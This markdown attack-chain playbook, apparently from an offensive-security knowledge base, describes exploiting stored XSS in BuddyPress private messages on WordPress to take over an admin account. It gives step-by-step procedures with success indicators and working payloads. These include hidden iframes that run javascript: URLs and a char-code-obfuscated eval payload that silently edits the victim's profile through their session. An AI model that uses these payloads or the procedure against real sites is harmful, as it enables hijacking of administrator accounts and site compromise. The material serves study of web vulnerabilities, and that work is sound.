

---
tags:
  - xss
  - stored-xss
  - wordpress
  - buddypress
  - privilege-escalation
type: attack_chain
tools:
  - '[[tools/Python-Char-Code-Converter]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
commands:
  - '[[commands/simple-xss-iframe-alert]]'
  - '[[commands/encoded-xss-variable-alert]]'
  - '[[commands/encoded-xss-change-username]]'
  - '[[commands/encoded-xss-change-site-settings]]'
  - '[[commands/encoded-xss-escalate-user-role]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Send-Malicious-Private-Message-via-BuddyPress]]'
  - '[[procedures/Reply-with-Malicious-Payload-in-Message-Thread]]'
  - '[[procedures/Craft-Encoded-XSS-Payload]]'
  - '[[procedures/Trigger-and-Exploit-XSS-for-Privilege-Escalation]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploitation of stored XSS in BuddyPress messaging to execute arbitrary
  JavaScript and achieve administrative access
skill_level: intermediate
impact_level: high
id: 09ad63f4-0f4f-4d1b-89e8-9f578169237e
created_at: '2025-12-14T00:11:16.610Z'
updated_at: '2025-12-14T00:11:16.610Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Stored XSS in BuddyPress Private Messages for WordPress Admin Takeover

Multi-stage attack chain exploiting a stored XSS vulnerability in the BuddyPress Private Message component of WordPress to execute arbitrary JavaScript, perform actions on behalf of the victim, and potentially gain full administrative access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python-Char-Code-Converter]]

### Target Environment

- Web
- WordPress 5.0.3 with BuddyPress 4.1.0, PHP, jQuery, Nouveau Template Pack

### Initial Access Requirements

- Registered user account on the target WordPress site with BuddyPress enabled
- Ability to send private messages to the target user (e.g., admin)

## Detailed Attack Procedures

### Step 1: Craft Malicious XSS Payload
procedure: [[procedures/Craft-Encoded-XSS-Payload]]

**Objective**: Prepare an encoded XSS payload to bypass restrictions and execute JavaScript in the victim's browser.

**Instructions**: Use [[tools/Python-Char-Code-Converter]] to convert JavaScript code into char codes. For example, to create a simple alert payload:

```javascript
let test = 123; alert(test);
```

Convert it and embed in an iframe like [[commands/encoded-xss-variable-alert]]:

```html
<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>
```

**Expected Output**: Encoded payload ready for insertion.

**Success Indicators**:
- Payload successfully encoded without spaces or quotes
- JavaScript executes as expected in a test environment

### Step 2: Send Malicious Private Message
procedure: [[procedures/Send-Malicious-Private-Message-via-BuddyPress]]

**Objective**: Deliver the malicious payload via a new private message to store it in the database.

**Instructions**: Navigate to the target's profile and initiate a message. Enter a subject and insert the payload like [[commands/simple-xss-iframe-alert]] in the message body:

```html
Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>
```

Submit the message.

**Expected Output**: Message sent and stored.

**Success Indicators**:
- Message appears in the recipient's inbox
- No immediate errors or filtering detected

### Step 3: Reply with Malicious Payload in Existing Thread
procedure: [[procedures/Reply-with-Malicious-Payload-in-Message-Thread]]

**Objective**: Inject payload into an existing message thread as an alternative delivery method.

**Instructions**: Go to the inbox, open a thread, and reply with a payload like [[commands/encoded-xss-change-username]]:

```html
<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,97,109,101,32,61,32,112,97,114,101,110,116,46,66,80,95,78,111,117,118,101,97,117,46,109,101,115,115,97,103,101,115,46,114,111,111,116,85,114,108,46,115,112,108,105,116,40,39,47,39,41,91,50,93,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,109,101,109,98,101,114,115,47,39,32,43,32,110,97,109,101,32,43,32,39,47,112,114,111,102,105,108,101,47,101,100,105,116,47,103,114,111,117,112,47,49,47,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,102,105,101,108,100,95,49,34,93,39,41,46,118,97,108,40,39,72,65,67,75,69,68,39,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59,10])) width=0 height=0 style=display:none;></iframe>
```

**Expected Output**: Reply sent and stored.

**Success Indicators**:
- Reply visible in thread
- Payload intact in database

### Step 4: Trigger XSS and Escalate Privileges
procedure: [[procedures/Trigger-and-Exploit-XSS-for-Privilege-Escalation]]

**Objective**: Have the victim view the message to execute the payload and perform privileged actions.

**Instructions**: Wait for or induce the victim to view the message. For escalation, use payloads like [[commands/encoded-xss-escalate-user-role]] to change user roles.

**Expected Output**: JavaScript executes, e.g., user role changed to admin.

**Success Indicators**:
- Alert or action confirms execution
- Victim's permissions modified

## Attack Chain Summary

### Key Achievements
1. Stored malicious payload in messages
2. Executed arbitrary JS in victim's context
3. Achieved privilege escalation to admin

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]

*Last updated: [TIMESTAMP]*
